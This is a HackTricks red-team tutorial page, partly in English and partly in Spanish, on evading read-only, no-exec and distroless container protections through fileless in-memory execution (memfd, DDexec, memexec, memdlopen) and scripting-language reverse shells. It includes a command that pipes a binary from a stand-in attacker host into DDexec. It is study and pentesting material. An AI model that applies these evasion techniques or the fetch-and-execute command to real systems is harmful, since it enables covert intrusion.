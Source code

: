 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

{% hint style="warning" %}
From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

{% hint style="warning" %}
This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.

Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

{% hint style="success" %}
**DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Para más información sobre esta técnica, consulta el Github o:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) es el siguiente paso natural de DDexec. Es un **shellcode demonizado de DDexec**, por lo que cada vez que quieras **ejecutar un binario diferente** no necesitas relanzar DDexec, solo puedes ejecutar el shellcode de memexec a través de la técnica DDexec y luego **comunicarte con este demonio para pasar nuevos binarios para cargar y ejecutar**.

Puedes encontrar un ejemplo de cómo usar **memexec para ejecutar binarios desde un reverse shell de PHP** en [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Con un propósito similar al de DDexec, la técnica [**memdlopen**](https://github.com/arget13/memdlopen) permite una **manera más fácil de cargar binarios** en memoria para ejecutarlos más tarde. Podría incluso permitir cargar binarios con dependencias.

## Bypass Distroless

### Qué es distroless

Los contenedores distroless contienen solo los **componentes mínimos necesarios para ejecutar una aplicación o servicio específico**, como bibliotecas y dependencias de tiempo de ejecución, pero excluyen componentes más grandes como un gestor de paquetes, shell o utilidades del sistema.

El objetivo de los contenedores distroless es **reducir la superficie de ataque de los contenedores al eliminar componentes innecesarios** y minimizar el número de vulnerabilidades que pueden ser explotadas.

### Reverse Shell

En un contenedor distroless, es posible que **ni siquiera encuentres `sh` o `bash`** para obtener un shell regular. Tampoco encontrarás binarios como `ls`, `whoami`, `id`... todo lo que normalmente ejecutas en un sistema.

{% hint style="warning" %}
Por lo tanto, **no** podrás obtener un **reverse shell** o **enumerar** el sistema como lo haces normalmente.
{% endhint %}

Sin embargo, si el contenedor comprometido está ejecutando, por ejemplo, un flask web, entonces python está instalado, y por lo tanto puedes obtener un **reverse shell de Python**. Si está ejecutando node, puedes obtener un reverse shell de Node, y lo mismo con casi cualquier **lenguaje de scripting**.

{% hint style="success" %}
Usando el lenguaje de scripting podrías **enumerar el sistema** utilizando las capacidades del lenguaje.
{% endhint %}

Si no hay protecciones de **`read-only/no-exec`**, podrías abusar de tu reverse shell para **escribir en el sistema de archivos tus binarios** y **ejecutarlos**.

{% hint style="success" %}
Sin embargo, en este tipo de contenedores, estas protecciones generalmente existirán, pero podrías usar las **técnicas de ejecución en memoria anteriores para eludirlas**.
{% endhint %}

Puedes encontrar **ejemplos** sobre cómo **explotar algunas vulnerabilidades RCE** para obtener **reverse shells** de lenguajes de scripting y ejecutar binarios desde la memoria en [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
